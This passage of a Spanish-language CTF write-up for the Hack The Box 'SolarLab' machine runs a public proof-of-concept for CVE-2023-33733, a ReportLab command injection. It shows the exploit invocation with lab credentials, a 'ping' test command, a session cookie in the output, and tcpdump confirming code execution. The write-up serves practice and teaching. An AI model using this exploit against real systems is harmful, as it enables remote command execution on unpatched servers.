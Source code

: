 Y parece que tiene un RCE asociado.
[CVE-2023-33733](https://github.com/L41KAA/CVE-2023-33733-Exploit-PoC)

Parece que se acontece una inyección de comandos a la hora de añadir un párrafo en cualquier funcionalidad
![Write-up Image](images/SolarLab_5.png)

Voy a intentar mandándome un ping
```shell
➜  CVE-2023-33733-Exploit-PoC git:(main) python3 exp.py --host 'report.solarlab.htb' --port 6791 --username 'BlakeB' --password 'ThisCanB3typedeasily1@' --cmd 'ping 10.10.14.71'
[*] Logging in to http://report.solarlab.htb:6791/login
Retreived session cookie: session=.eJwljjsOw0AIBe9CnQLWfBZfxjJrUNLacRXl7lkp0715zXxgqzOvJ6zv884HbK8DVoh9aC48GnM5YYjsncJHVsrwEUi1OLt1iXlL10RPw0NSbBIh3lpG2WLUVSPUHaf25hyszCqCJuqhDa2a78GEpKlzlxwwQ-4rz38NwfcHgZgttg.ZqU7AA.XHsnPDC8phcG6BMnDvLQbf2lGYM; HttpOnly; Path=/
[*] Extracting session token...
[*] Token extracted:  .eJwljjsOw0AIBe9CnQLWfBZfxjJrUNLacRXl7lkp0715zXxgqzOvJ6zv884HbK8DVoh9aC48GnM5YYjsncJHVsrwEUi1OLt1iXlL10RPw0NSbBIh3lpG2WLUVSPUHaf25hyszCqCJuqhDa2a78GEpKlzlxwwQ-4rz38NwfcHgZgttg.ZqU7AA.XHsnPDC8phcG6BMnDvLQbf2lGYM
[*] Building Exploit...
[*] Exploit built
[*] Preparing request
[*] Sending request to http://report.solarlab.htb:6791/leaveRequest
[*] Sending a reverse shell should cause request to hang
[*] Request sent
[*] Probable success. Status Code 500
```

```shell
➜  ~ sudo tcpdump -i tun0 icmp
[sudo] password for kali:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
20:22:41.575007 IP report.solarlab.htb > 10.10.14.71: ICMP echo request, id 1, seq 1, length 40
20:22:41.575163 IP 10.10.14.71 > report.solarlab.htb: ICMP echo reply, id 1, seq 1, length 40
20:22:42.579868 IP report.solarlab.htb > 10.10.14.71: ICMP echo request, id 1, seq 2, length 40
20:22:42.579885 IP 10.10.14.71 > report.solarlab.htb: ICMP echo reply, id 1, seq 2, length 40
20:22:43.586730 IP report.solarlab.htb > 10.10.14.71: ICMP echo request, id 1, seq 3, length 40
20:22:43.586749 IP 10.10.14.71 > report.solarlab.htb: ICMP echo reply, id 1, seq 3, length 40
20:22:44.593617 IP report.solarlab.htb > 10.10.14.71: ICMP echo request, id 1, seq 4, length 40
20:22:44.593634 IP 10.10.14.71 > report.solarlab.htb: ICMP echo reply, id 1, seq 4, length 40
```
